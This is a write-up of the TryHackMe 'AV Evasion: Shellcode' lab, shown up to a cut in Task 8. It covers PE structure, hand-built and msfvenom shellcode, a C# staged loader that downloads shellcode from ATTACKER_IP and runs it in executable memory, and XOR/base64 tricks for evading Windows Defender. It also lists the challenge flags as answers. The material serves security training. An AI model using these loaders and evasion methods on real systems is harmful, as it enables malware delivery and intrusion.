

# [AV Evasion: Shellcode](https://tryhackme.com/r/room/avevasionshellcode)


Learn shellcode encoding, packing, binders, and crypters.

## Task 1 - Introduction

In this room, we'll explore how to build and deliver payloads, focusing on avoiding detection by common AV engines. We'll look at different techniques available to us as attackers and discuss the pros and cons of every one of them.

### Objectives

* Learn how shellcodes are made.
* Explore the pros and cons of staged payloads.
* Create stealthy shellcodes to avoid AV detection.

### Prerequisites

It is recommended to have some prior knowledge of [how antivirus software works](https://tryhackme.com/room/introtoav) and a basic understanding of encryption and encoding. While not strictly required, some knowledge of basic assembly language can also be helpful. Also, we recommend having a basic understanding of reading code and understanding functions (C, C#).

### Answer the questions below

* Click and continue learning!

## Task 2 - Challenge

In this challenge, we prepared a Windows machine with a web application to let you upload your payloads. Once uploaded, the payloads will be checked by an AV and executed if found to be clean of malware. The main goal of this challenge is to evade Antivirus software installed on the VM and capture the flag in the file system. Feel free to try all of the techniques discussed throughout the room by uploading them to `http://MACHINE_IP/`.

Points to remember:

* Try to combine the techniques discussed in this room.
* The website supports EXE files only.
* Once the AV scans the uploaded file and no malicious code is detected, the file gets executed. Thus, if everything is put together correctly, then you should receive a reverse shell.


You can ignore the questions for this task for now, but be sure to come back to them once you have successfully bypassed the AV and gained a shell.

Deploy the attached VM to follow up with the content of the room before continuing to the next section! The VM will deploy in-browser and should appear automatically in the Split View. In case the VM is not visible, use the blue Show Split View button at the top-right of the page. If you prefer connecting via RDP, you can do so with the following credentials:


You will also need the AttackBox for some tasks, so this is also a good moment to start it.

### Answer the questions below

* Which Antivirus software is running on the VM?

    **Answer : Windows Defender**

* What is the name of the user account to which you have access?

    

    **Answer : av-victim**

* Establish a working shell on the victim machine and read the file on the user's desktop. What is the flag?

    

    **Answer : THM{H3ll0-W1nD0ws-Def3nd3r!}**

## Task 3 - PE Structure

This task highlights some of the high-level essential elements of PE data structure for Windows binaries.

### What is PE?

Windows Executable file format, aka PE (Portable Executable), is a data structure that holds information necessary for files. It is a way to organize executable file code on a disk. Windows operating system components, such as Windows and DOS loaders, can load it into memory and execute it based on the parsed file information found in the PE.

In general, the default file structure of Windows binaries, such as EXE, DLL, and Object code files, has the same PE structure and works in the Windows operating system for both (x86 and x64) CPU architecture. 

A PE structure contains various sections that hold information about the binary, such as metadata and links to a memory address of external libraries. One of these sections is the **PE Header**, which contains metadata information, pointers, and links to address sections in memory. Another section is the **Data section**, which includes containers that include the information required for the Windows loader to run a program, such as the executable code, resources, links to libraries, data variables, etc. 


There are different types of data containers in the PE structure, each holding different data.

1. **.text** stores the actual code of the program
2. **.data** holds the initialized and defined variables
3. **.bss** holds the uninitialized data (declared variables with no assigned values)
4. **.rdata** contains the read-only data
5. **.edata**: contains exportable objects and related table information
6. **.idata** imported objects and related table information
7. **.reloc** image relocation information
8. .**rsrc** links external resources used by the program such as images, icons, embedded binaries, and manifest file, which has all information about program versions, authors, company, and copyright!

The PE structure is a vast and complicated topic, and we are not going to go into too much detail regarding the headers and data sections. This task provides a high-level overview of the PE structure. If you are interested in gaining more information on the topic, we suggest checking the following THM rooms where the topic is explained in greater detail:

1. [Windows Internals](https://tryhackme.com/room/windowsinternals)
2. Dissecting PE Headers

You can also get more in-depth details about PE if you check the [Windows PE format's](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format) Docs website. 

When looking at the PE contents, we'll see it contains a bunch of bytes that aren't human-readable. However, it includes all the details the loader needs to run the file. The following are the example steps in which the Windows loader reads an executable binary and runs it as a process.

1. Header sections: DOS, Windows, and optional headers are parsed to provide information about the EXE file. For example,
	* The magic number starts with "MZ," which tells the loader that this is an EXE file.
	* File Signatures
	* Whether the file is compiled for x86 or x64 CPU architecture.
	* Creation timestamp. 
	
2. Parsing the section table details, such as 
	* Number of Sections the file contains.
	
3. Mapping the file contents into memory based on
	* The EntryPoint address and the offset of the ImageBase. 
	* RVA: Relative Virtual Address, Addresses related to Imagebase.
	
4. Imports, DLLs, and other objects are loaded into the memory.

5. The EntryPoint address is located and the main execution function runs.

### Why do we need to know about PE?

There are a couple of reasons why we need to learn about it. First, since we are dealing with packing and unpacking topics, the technique requires details about the PE structure. 

The other reason is that AV software and malware analysts analyze EXE files based on the information in the PE Header and other PE sections. Thus, to create or modify malware with AV evasion capability targeting a Windows machine, we need to understand the structure of Windows Portable Executable files and where the malicious shellcode can be stored.

We can control in which Data section to store our shellcode by how we define and initialize the shellcode variable. The following are some examples that show how we can store the shellcode in PE:

1. Defining the shellcode as a local variable within the main function will store it in the **.TEXT** PE section.
2. Defining the shellcode as a global variable will store it in the **.Data** section.
3. Another technique involves storing the shellcode as a raw binary in an icon image and linking it within the code, so in this case, it shows up in the **.rsrc** Data section.
4. We can add a custom data section to store the shellcode.

### PE-Bear

The attached VM is a Windows development machine that has the tools needed to parse EXE files and read the details we discussed. For your convenience, we have provided a copy of the PE-Bear software on the Desktop, which helps to check the PE structure: Headers, Sections, etc. PE-Bear provides a graphic user interface to show all relevant EXE details. To load an EXE file for analysis, select **File -> Load PEs** (Ctrl + O).


Once a file is loaded, we can see all PE details. The following screenshot shows PE details of the loaded file, including the headers and sections we discussed earlier in this task.


Now it is time to try it out! Load the **thm-intro2PE.exe** file to answer the questions below. The file is located in the following location: `c:\Tools\PE files\thm-intro2PE.exe`.

### Answer the questions below

* What is the last 6 digits of the MD5 hash value of the **thm-intro2PE.exe** file? 

    

    **Answer : 530949**

* What is the Magic number value of the **thm-intro2PE.exe** file (in Hex)?

    

    **Answer : 5A4D**

* What is the Entry Point value of the **thm-intro2PE.exe** file?

    

    **Answer : 12E4**

* How many Sections does the **thm-intro2PE.exe** file have?

    

    **Answer : 7**

* A custom section could be used to store extra data. Malware developers use this technique to create a new section that contains their malicious code and hijack the flow of the program to jump and execute the content of the new section. What is the name of the extra section?

    

    **Answer : .flag**

* Check the content of the extra section. What is the flag?

    

    **Answer :  THM{PE-N3w-s3ction!}**

## Task 4 - Introduction to Shellcode


Shellcode is a set of crafted machine code instructions that tell the vulnerable program to run additional functions and, in most cases, provide access to a system shell or create a reverse command shell.

Once the shellcode is injected into a process and executed by the vulnerable software or program, it modifies the code run flow to update registers and functions of the program to execute the attacker's code.

It is generally written in Assembly language and translated into hexadecimal opcodes (operational codes). Writing unique and custom shellcode helps in evading AV software significantly. But writing a custom shellcode requires excellent knowledge and skill in dealing with Assembly language, which is not an easy task! 

### A Simple Shellcode!

In order to craft your own shellcode, a set of skills is required:

* A decent understanding of x86 and x64 CPU architectures.
* Assembly language.
* Strong knowledge of programming languages such as C.
* Familiarity with the Linux and Windows operating systems.

To generate our own shellcode, we need to write and extract bytes from the assembler machine code. For this task, we will be using the AttackBox to create a simple shellcode for Linux that writes the string "THM, Rocks!". The following assembly code uses two main functions:

* System Write function (sys_write) to print out a string we choose.
* System Exit function (sys_exit) to terminate the execution of the program.

To call those functions, we will use **syscalls**. A syscall is the way in which a program requests the kernel to do something. In this case, we will request the kernel to write a string to our screen, and the exit the program. Each operating system has a different calling convention regarding syscalls, meaning that to use the write in Linux, you'll probably use a different syscall than the one you'd use on Windows. For 64-bits Linux, you can call the needed functions from the kernel by setting up the following values:

|rax|System Call|rdi|rsi|rdx|
|---|-----------|---|---|---|
|0x1|sys_write|unsigned int fd|const char *buf|size_t count|
|0x3c|sys_exit|int error_code|||

The table above tells us what values we need to set in different processor registers to call the sys_write and sys_exit functions using syscalls. For 64-bits Linux, the rax register is used to indicate the function in the kernel we wish to call. Setting rax to 0x1 makes the kernel execute sys_write, and setting rax to 0x3c will make the kernel execute sys_exit. Each of the two functions require some parameters to work, which can be set through the rdi, rsi and rdx registers. You can find a complete reference of available 64-bits Linux syscalls [here](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).

For **sys_write**, the first parameter sent through **rdi** is the file descriptor to write to. The second parameter in **rsi** is a pointer to the string we want to print, and the third in **rdx** is the size of the string to print.

For **sys_exit**, rdi needs to be set to the exit code for the program. We will use the code 0, which means the program exited successfully.

Copy the following code to your AttackBox in a file called **thm.asm**: 

```
global _start

section .text
_start:
    jmp MESSAGE      ; 1) let's jump to MESSAGE

GOBACK:
    mov rax, 0x1
    mov rdi, 0x1
    pop rsi          ; 3) we are popping into `rsi`; now we have the
                     ; address of "THM, Rocks!\r\n"
    mov rdx, 0xd
    syscall

    mov rax, 0x3c
    mov rdi, 0x0
    syscall

MESSAGE:
    call GOBACK       ; 2) we are going back, since we used `call`, that means
                      ; the return address, which is, in this case, the address
                      ; of "THM, Rocks!\r\n", is pushed into the stack.
    db "THM, Rocks!", 0dh, 0ah
```

Let's explain the ASM code a bit more. First, our message string is stored at the end of the .text section. Since we need a pointer to that message to print it, we will jump to the call instruction before the message itself. When `call GOBACK` is executed, the address of the next instruction after call will be pushed into the stack, which corresponds to where our message is. Note that the 0dh, 0ah at the end of the message is the binary equivalent to a new line (\r\n).

Next, the program starts the GOBACK routine and prepares the required registers for our first sys_write() function.

* We specify the sys_write function by storing 1 in the rax register.
* We set rdi to 1 to print out the string to the user's console (STDOUT).
* We pop a pointer to our string, which was pushed when we called GOBACK and store it into rsi.
* With the syscall instruction, we execute the sys_write function with the values we prepared.
* For the next part, we do the same to call the sys_exit function, so we set 0x3c into the rax register and call the syscall function to exit the program.

Next, we compile and link the ASM code to create an x64 Linux executable file and finally execute the program.



We used the `nasm` command to compile the asm file, specifying the `-f elf64` option to indicate we are compiling for 64-bits Linux. Notice that as a result we obtain a .o file, which contains object code, which needs to be linked in order to be a working executable file. The `ld` command is used to link the object and obtain the final executable. The `-o` option is used to specify the name of the output executable file.

Now that we have the compiled ASM program, let's extract the shellcode with the `objdump` command by dumping the .text section of the compiled binary.


Now we need to extract the hex value from the above output. To do that, we can use `objcopy` to dump the `.text` section into a new file called **thm.text** in a binary format as follows:


The thm.text contains our shellcode in binary format, so to be able to use it, we will need to convert it to hex first. The `xxd` command has the `-i` option that will output the binary file in a C string directly:


Finally, we have it, a formatted shellcode from our ASM assembly. That was fun! As we see, dedication and skills are required to generate shellcode for your work!

To confirm that the extracted shellcode works as we expected, we can execute our shellcode and inject it into a C program.

```
#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
        0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
        0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
        0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
        0x0d, 0x0a
    };
    
    (*(void(*)())message)();
    return 0;
}
```

Then, we compile and execute it as follows,


Nice! it works. Note that we compile the C program by disabling the NX protection, which may prevent us from executing the code correctly in the data segment or stack.

Understanding shellcodes and how they are created is essential for the following tasks, especially when dealing with encrypting and encoding the shellcode.

### Answer the questions below

* Modify your C program to execute the following shellcode. What is the flag?

	```
	unsigned char message[] = {
  	0xeb, 0x34, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x5e, 0x48, 0x89, 0xf0, 0x80,
  	0x34, 0x08, 0x01, 0x48, 0x83, 0xc1, 0x01, 0x48, 0x83, 0xf9, 0x19, 0x75,
  	0xf2, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00, 0xba,
  	0x19, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf,
  	0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xc7, 0xff, 0xff, 0xff, 0x55,
  	0x49, 0x4c, 0x7a, 0x78, 0x31, 0x74, 0x73, 0x2c, 0x30, 0x72, 0x36, 0x2c,
  	0x34, 0x69, 0x32, 0x30, 0x30, 0x62, 0x31, 0x65, 0x32, 0x7c, 0x0d, 0x0a
	};
	```

    

    **Answer : THM{y0ur-1s7-5h311c0d3}**
    
## Task 5 - Generate Shellcode

In this task, we continue working with shellcode and demonstrate how to generate and execute shellcode using public tools such as the Metasploit framework.

### Generate shellcode using Public Tools

Shellcode can be generated for a specific format with a particular programming language. This depends on you. For example, if your dropper, which is the main exe file, contains the shellcode that will be sent to a victim, and is written in C, then we need to generate a shellcode format that works in C.

The advantage of generating shellcode via public tools is that we don't need to craft a custom shellcode from scratch, and we don't even need to be an expert in assembly language. Most public C2 frameworks provide their own shellcode generator compatible with the C2 platform. Of course, this is so convenient for us, but the drawback is that most, or we can say all, generated shellcodes are well-known to AV vendors and can be easily detected.

We will use Msfvenom on the AttackBox to generate a shellcode that executes Windows files. We will be creating a shellcode that runs the `calc.exe` application.


As a result, the Metasploit framework generates a shellcode that executes the Windows calculator (calc.exe). The Windows calculator is widely used as an example in the Malware development process to show a proof of concept. If the technique works, then a new instance of the Windows calculator pops up. This confirms that any executable shellcode works with the method used.  

### Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named `calc.c`:

```
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:


Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\MACHINE_IP\Tools with the following commands (remember the password for the `thm` user is `Password321`):


This should copy your file in `C:\Tools\` in the Windows machine.

While your machine's AV should be disabled, feel free to try and upload your payload to the THM Antivirus Check at `http://MACHINE_IP/`.


The Metasploit framework has many other shellcode formats and types for all your needs. We strongly suggest experimenting more with it and expanding your knowledge by generating different shellcodes.

The previous example shows how to generate shellcode and execute it within a target machine. Of course, you can replicate the same steps to create different types of shellcode, for example, the Meterpreter shellcode.

### Generate Shellcode from EXE files

Shellcode can also be stored in `.bin` files, which is a raw data format. In this case, we can get the shellcode of it using the `xxd -i` command.

C2 Frameworks provide shellcode as a raw binary file `.bin`. If this is the case, we can use the Linux system command `xxd` to get the hex representation of the binary file. To do so, we execute the following command: `xxd -i`.

Let's create a raw binary file using msfvenom to get the shellcode:


And run the `xxd` command on the created file:


If we compare the output with the previous shellcode created with Metasploit, it matches.

### Answer the questions below

* Apply what we discussed in this task and get ready for the next topic!

## Task 6 - Staged Payloads

In our goal to bypass the AV, we will find two main approaches to delivering the final shellcode to a victim. Depending on the method, you will find payloads are usually categorized as **staged** or **stageless** payloads. In this task, we will look at the differences in both approaches and the advantages of each method.

### Stageless Payloads

A stageless payload embeds the final shellcode directly into itself. Think of it as a packaged app that executes the shellcode in a single-step process. In previous tasks, we embedded an executable that embedded a simple `calc` shellcode, making a stageless payload.


In the example above, when the user executes the malicious payload, the embedded shellcode will run, providing a reverse shell to the attacker.

### Staged Payloads

Staged payloads work by using intermediary shellcodes that act as steps leading to the execution of a final shellcode. Each of these intermediary shellcodes is known as a stager, and its primary goal is to provide a means to retrieve the final shellcode and execute it eventually.

While there might be payloads with several stages, the usual case involves having a two-stage payload where the first stage, which we'll call **stage0**, is a stub shellcode that will connect back to the attacker's machine to download the final shellcode to be executed.


Once retrieved, the stage0 stub will inject the final shellcode somewhere in the memory of the payload's process and execute it (as shown below).


### Staged vs. Stageless

When deciding which type of payload to use, we must be aware of the environment we'll be attacking. Each payload type has advantages and disadvantages depending on the specific attack scenario.

In the case of stageless payloads, you will find the following advantages:

* The resulting executable packs all that is needed to get our shellcode working.
* The payload will execute without requiring additional network connections. The fewer the network interactions, the lesser your chances of being detected by an IPS.
* If you are attacking a host with very restricted network connectivity, you may want your whole payload to be in a single package.

For staged payloads, you will have:

* Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size.
* The final shellcode isn't embedded into the executable. If your payload is captured, the Blue Team will only have access to the stage0 stub and nothing more.
* The final shellcode is loaded in memory and never touches the disk. This makes it less prone to be detected by AV solutions.
* You can reuse the same stage0 dropper for many shellcodes, as you can simply replace the final shellcode that gets served to the victim machine.

In conclusion, we can't say that either type is better than the other unless we add some context to it. In general, stageless payloads are better suited for networks with lots of perimeter security, as it doesn't rely on having to download the final shellcode from the Internet. If, for example, you are performing a USB Drop Attack to target computers in a closed network environment where you know you won't get a connection back to your machine, stageless is the way to go.

Staged payloads, on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum. Since they execute the final payload in memory, some AV solutions might find it harder to detect them. They are also great for avoiding exposing your shellcodes (which usually take considerable time to prepare), as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

### Stagers in Metasploit

When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the `_` versus `/` after `shell`):

|Payload|Type|
|-------|----|
|windows/x64/shell_reverse_tcp|Stageless payload|
|windows/x64/shell/reverse_tcp|Staged payload|

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the `windows/x64/meterpreter_reverse_tcp`, rather than `windows/x64/meterpreter/reverse_tcp`, which works as its staged counterpart.

### Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at `C:\Tools\CS Files\StagedPayload.cs`:

```
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via P/Invoke. The functions we need are the following three from `kernel32.dll`:

|WinAPI Function|Description|
|---------------|-----------|
|[VirtualAlloc()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)|Allows us to reserve some memory to be used by our shellcode.|
|[CreateThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)|Creates a thread as part of the current process.|
|[WaitForSingleObject()](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)|Used for thread synchronization. It allows us to wait for a thread to finish before continuing.|

The part of the code in charge of importing these functions is the following:

```
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the `Stager()` function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.


The first part of the `Stager()` function will create a new `WebClient()` object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the `ServerCertificateValidationCallback` method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesn't complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the `DownloadData()` method to download the shellcode from the given URL and store it into the `shellcode` variable:

```
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the `shellcode` variable, we'll need to copy it into executable memory before actually running it. We use `VirtualAlloc()` to request a memory block from the operating system. Notice that we request enough memory to allocate `shellcode.Length` bytes, and set the `PAGE_EXECUTE_READWRITE` flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the `codeAddr` variable, we use `Marshal.Copy()` to copy the contents of the `shellcode` variable in the `codeAddr` variable.

```
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the `CreateThread()` function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:

```
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying it into a Windows machine as a file called staged-payload.cs and compiling it with the following command:


### Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):


Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:


You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:


With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:


### Answer the questions below

* Do staged payloads deliver the full content of our payload in a single package? (yea/nay)

    **Answer : Nay**

* Is the Metasploit payload `windows/x64/meterpreter_reverse_https` a staged payload? (yea/nay)

    **Answer : Nay**

* Is the stage0 of a staged payload in charge of downloading the final payload to be executed? (yea/nay)

    **Answer : Yea**

* Follow the instructions to create a staged payload and upload it into the THM Antivirus Check at `http://MACHINE_IP/`

## Task 7 - Introduction to Encoding and Encryption

### What is Encoding?

Encoding is the process of changing the data from its original state into a specific format depending on the algorithm or type of encoding. It can be applied to many data types such as videos, HTML, URLs, and binary files (EXE, Images, etc.).

Encoding is an important concept that is commonly used for various purposes, including but not limited to:

* Program compiling and execution
* Data storage and transmission
* Data processing such as file conversion

Similarly, when it comes to AV evasion techniques, encoding is also used to hide shellcode strings within a binary. However, encoding is not enough for evasion purposes. Nowadays, AV software is more intelligent and can analyze a binary, and once an encoded string is found, it is decoded to check the text's original form.

You can also use two or more encoding algorithms in tandem to make it harder for the AV to figure out the hidden content. The following figure shows that we converted the "THM" string into hexadecimal representation and then encoded it using Base64. In this case, you need to make sure that your dropper now handles such encoding to restore the string to its original state.


### What is Encryption?

Encryption is one of the essential elements of information and data security which focuses on preventing unauthorized access and manipulation of data. The encryption process involves converting plaintext (unencrypted content) into an encrypted version called Ciphertext. The Ciphertext can't be read or decrypted without knowing the algorithm used in encryption as well as the key.

Like encoding, encryption techniques are used for various purposes, such as storing and transmitting data securely, as well as end-to-end encryption. Encryption can be used in two ways: having a shared key between two parties or using public and private keys.

For more information about encryption, we encourage you to check [Encryption - Crypto 101](https://tryhackme.com/room/encryptioncrypto101) room.


### Why do we Need to Know About Encoding and Encryption?

AV vendors implement their AV software to blocklist most public tools (such as Metasploit and others) using static or dynamic detection techniques. Therefore, without modifying the shellcode generated by these public tools, the detection rate for your dropper is high.

Encoding and encryption can be used in AV evasion techniques where we encode and/or encrypt shellcode used in a dropper to hide it from AV software during the runtime. Also, the two techniques can be used not only to hide the shellcode but also functions, variables, etc. In this room, we mainly focus on encrypting the shellcode to evade Windows Defender.

### Answer the questions below

* Is encoding shellcode only enough to evade Antivirus software? (yea/nay)

    **Answer : Nay**

* Do encoding techniques use a key to encode strings or files? (yea/nay)

    **Answer : Nay**

* Do encryption algorithms use a key to encrypt strings or files? (yea/nay)

    **Answer : Yea**

## Task 8 - Shellcode Encoding and Encryption

### Encode using MSFVenom

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:


We can indicate we want to use the `shikata_ga_nai` encoder with the `-e` (encoder) switch and then specify we want to encode the payload three times with the `-i` (iterations) switch:


If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:


If encoding doesn't work, we can always try encrypting the payload. Intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV. Let's try that now.

### Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The choices for encryption algorithms are, however, a bit scarce. To list the available encryption algorithms, you can use the following command:


Let's build an XOR encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:


Once again, if we upload the resulting shell to the THM Antivirus Check! page at `http://MACHINE_IP/`, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

### Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:


### The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at C:\Tools\CS Files\Encryptor.cs):

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
